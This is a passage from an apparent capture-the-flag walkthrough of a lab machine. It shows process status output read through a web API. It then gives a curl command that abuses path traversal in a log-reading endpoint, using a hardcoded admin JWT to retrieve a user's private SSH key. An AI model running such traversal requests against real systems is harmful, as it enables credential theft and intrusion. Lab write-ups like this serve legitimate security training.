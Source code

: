 ```
    "VmHWM:\t   54568 kB\n",
    "VmRSS:\t   54568 kB\n",
    "RssAnon:\t   40104 kB\n",
    "RssFile:\t   14464 kB\n",
    "RssShmem:\t       0 kB\n",
    "VmData:\t   58720 kB\n",
    "VmStk:\t     132 kB\n",
    "VmExe:\t    2956 kB\n",
    "VmLib:\t    9756 kB\n",
    "VmPTE:\t     172 kB\n",
    "VmSwap:\t       0 kB\n",
    "HugetlbPages:\t       0 kB\n",
    "CoreDumping:\t0\n",
    "THP_enabled:\t1\n",
    "untag_mask:\t0xffffffffffffffff\n",
    "Threads:\t2\n",
    "SigQ:\t0/7398\n",
    "SigPnd:\t0000000000000000\n",
    "ShdPnd:\t0000000000000000\n",
    "SigBlk:\t0000000000000000\n",
    "SigIgn:\t0000000001001000\n",
    "SigCgt:\t0000000100000002\n",
    "CapInh:\t0000000000000000\n",
    "CapPrm:\t0000000000000000\n",
    "CapEff:\t0000000000000000\n",
    "CapBnd:\t000001ffffffffff\n",
    "CapAmb:\t0000000000000000\n",
    "NoNewPrivs:\t0\n",
    "Seccomp:\t0\n",
    "Seccomp_filters:\t0\n",
    "Speculation_Store_Bypass:\tvulnerable\n",
    "SpeculationIndirectBranch:\tconditional enabled\n",
    "Cpus_allowed:\tffffffff,ffffffff,ffffffff,ffffffff\n",
    "Cpus_allowed_list:\t0-127\n",
    "Mems_allowed:\t00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000000,00000001\n",                                                                                                                                  
    "Mems_allowed_list:\t0\n",
    "voluntary_ctxt_switches:\t53085\n",
    "nonvoluntary_ctxt_switches:\t221\n",
    "x86_Thread_features:\t\n",
    "x86_Thread_features_locked:\t\n"
  ],
  "Status": 201
}
```

Reading ```/proc/self/status```, we can see that our current Uid is 1001, meaning that we can verify that have the permissions of ```shirohige``` (```shirohige```'s Uid is 1001 as seen from ```/etc/passwd```). Further recon shows that ```shirohige``` as a private ssh key that we can read.
```
┌──(kali㉿kali)-[/tmp/instant/decompile]
└─$ curl "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=../.ssh/id_rsa" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2809  100  2809    0     0  32082      0 --:--:-- --:--:-- --:--:-- 31920
{
  "/home/shirohige/logs/../.ssh/id_rsa": [
    "-----BEGIN OPENSSH PRIVATE KEY-----\n",
```